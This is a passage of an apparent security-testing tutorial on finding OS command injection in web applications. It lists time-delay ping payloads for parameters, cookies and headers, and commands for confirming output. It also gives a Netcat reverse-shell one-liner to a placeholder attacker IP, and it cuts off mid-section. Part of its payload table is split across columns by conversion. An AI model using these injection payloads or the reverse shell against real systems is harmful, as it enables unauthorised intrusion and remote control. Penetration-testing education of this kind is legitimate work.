 
### 🔧 Test Payloads (Paste these into any parameter):

| OS      | Payload                        |                        |                            |
| ------- | ------------------------------ | ---------------------- | -------------------------- |
| Any     | \`                             |                        | ping -i 30 127.0.0.1 ; x\` |
| Windows | \`                             | ping -n 30 127.0.0.1\` |                            |
| Windows | `& ping -n 30 127.0.0.1 &`     |                        |                            |
| Linux   | `; ping -c 10 127.0.0.1 ;`     |                        |                            |
| Linux   | `` `ping -c 10 127.0.0.1` ``   |                        |                            |
| Any     | `%0a ping -c 10 127.0.0.1 %0a` |                        |                            |

Try each payload one by one, across:

* GET/POST params
* Cookie values
* Headers like `User-Agent` or `X-Forwarded-For`

👉 **Measure response time** — if it spikes, you may have command injection.

---

## 🧭 If You Get a Delay — What Next?

### ✅ Step 1: Confirm It’s Real

* Run the delay test a few times.
* Try different delay values (`-n 10`, `-n 20`, `-n 30`)
* Does response time match the delay? Then it’s real.

### ✅ Step 2: Try Visible Commands

```bash
; whoami
; dir
; ls
```

If output is reflected on the page → jackpot. That’s **reflected command injection**.

---

## 🧰 If You Don’t Get Output, Try These:

### 🔁 **Out-of-Band (OOB)**

* Use **Netcat** to get a reverse shell:

  ```bash
  ; nc <your-ip> 4444 -e /bin/bash
  ```
* Or send output to your HTTP listener:

